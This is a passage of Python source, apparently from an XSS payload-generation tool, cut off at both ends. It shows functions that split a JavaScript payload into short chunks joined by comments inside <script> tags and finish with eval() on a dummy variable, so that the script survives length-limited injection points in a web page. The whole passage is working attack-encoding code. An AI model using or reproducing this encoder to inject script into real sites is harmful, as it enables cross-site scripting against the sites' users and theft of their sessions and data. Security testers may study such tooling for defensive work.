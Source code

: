 ```python
            '<script>%s=' % dummy_var, count=max_len-len(suffix)))
        left_at_last_line = max_len - len(setup_prefix.rsplit('\n',1)[-1])
        
        # padding to take into account any content on the line between
        # the prefix and the start of the payload
        padding = '?' * (max_len - left_at_last_line - len(prefix))
        
        # if there's no space for at least "<letter>"+/*, just start
        # on the next line
        if left_at_last_line < 6:
            setup_prefix = setup_prefix + comment
            padding = ''
        
        payload = self.raw.replace(quote,'\\'+quote)
        logger.debug('Splitting %s' % payload)
        # hold on to the last character of payload
        # since there will be no + at the end
        # len(sep)+1 is to compensate for the newline
        lines = split_to_len(padding+payload[:-1], count=max_len-len(sep)+1)
        lines[0] = lines[0][len(padding):]
        lines[-1] = lines[-1] + payload[-1]
        
        # there is always space for the ; at the end, since it takes
        # the place of the + on previous lines
        encoded = '%s%s%s%s' % (setup_prefix, quote,
                sep.join(lines), quote)
        lines = encoded.rsplit('\n',1)
        
        # setup_suffixes[0] will be added to the last line, split
        # to max_len and joined with a comment
        # setup_suffixes[1], if present, will be joined at the end
        # with a newline
        if max_len == 10:
            # if there is no space for */</script> we'll end the
            # last line with a semicolon instead of /*
            # there will be JavaScript errors due to random content on
            # the page between the last two payload chunks
            setup_suffixes = [';eval(%s);' % dummy_var, '</script>']
        else:
            # otherwise split the whole suffix and put comments
            # between each chunk
            setup_suffixes = [';eval(%s)</script>' % dummy_var]
        
        # hold on to the last two characters of setup_suffixes[0]
        # and the first two characters of lines[-1]
        # since there will be no /* at the end and no extra */ at the
        # beginning
        # len(comment)+1 is to compensate for the newline
        to_add = split_to_len(lines[-1][2:]+setup_suffixes[0][:-2],
            count=max_len-len(comment)+1,
            no_split_on='(\\\\.|eval|\(%s(?:\)|$)|</[a-z]+)' % dummy_var)
        to_add[0] = lines[-1][:2] + to_add[0]
        to_add[-1] = to_add[-1] + setup_suffixes[0][-2:]
        
        encoded = '\n'.join(lines[:-1] + \
                [comment.join(to_add)] + setup_suffixes[1:])
        
        return encoded
    
    def as_num_to_string(self, quote, max_int, **kwargs):
        left = self.raw
        encoded = ''
        warned = False
```
